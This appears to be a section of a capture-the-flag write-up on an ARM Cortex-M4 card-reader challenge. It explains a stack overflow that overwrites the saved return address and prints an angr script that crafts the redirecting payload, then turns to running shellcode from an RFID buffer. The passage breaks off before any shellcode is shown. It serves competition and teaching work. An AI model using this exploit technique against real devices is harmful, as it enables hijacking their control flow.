 \subsection{Bounce}
\label{sec:bounce}

This challenge was short but different than all of the others.
The challenge hash not being filled in the challenge function itself. Further investigation revealed that the \texttt{fillChallengeHash} called only during \texttt{setup} would fill and send the hash. This would only happen if the \texttt{use} global boolean was set to true. This boolean was set to true when conditions were met in the actual challenge function.

At first glance, it would seem that calling this function again is impossible, but knowing how return addresses on ARM are saved, we notice that if the right card data is provided, we can overflow the stack with arbitrary data. Using \angr for dynamic analysis, we solved the required input constraints to make \texttt{use = true}. This included control over the saved LR on the stack. Here is the solver script:

\begin{lstlisting}[language=python]
mgr = self.proj.factory.simgr(st)

mgr.use_technique(angr.exploration_techniques.Explorer(find=[0x876, 0x877], avoid=[0x874,0x875]))
st.memory.store(WHITE_CARD_START_ADDR, b"\x00"*WHITE_CARD_SZ)

# Returning right towards the fillChallengeHash function
target_pc = self.obj.symbols_by_name["_Z17fillChallengeHashv"].linked_addr

print("[+] Exploit target PC %08x" % target_pc)

stage1 = b"\x00"*12 + pack("<I", 12) + b"\x00\x00\x00\x00" + pack("<I", target_pc)

# clear the white card
st.memory.store(WHITE_CARD_START_ADDR, b"\x00"*WHITE_CARD_SZ)

# for each bit that is set, read a byte from the payload (24 bytes)
st.memory.store(WHITE_CARD_START_ADDR+0x100, b"\xff"*3)
st.memory.store(WHITE_CARD_START_ADDR+0xc0, stage1)

# Keep buttons symbolic
st.memory.store(BUTTON_OFFSET, st.solver.BVS('button', 8))
\end{lstlisting}

\noindent Setting the buttons to a = 0x1, b = 0xd allowed the challenge to be solved.

\paragraph{Arbitrary Code Execution}
Given that we are able to fully control the instruction pointer, we can redirect it to a controlled space in memory to execute ARM Thumb-2 shellcode. The Cortex-M4 does not have any mitigations (ASLR, XN, MMU, etc.), making this trivial. We jump into the global RFID variable at [0x1fff976d + 0x110] (we just change \texttt{target\_pc} in the \angr script) to start executing the following code:

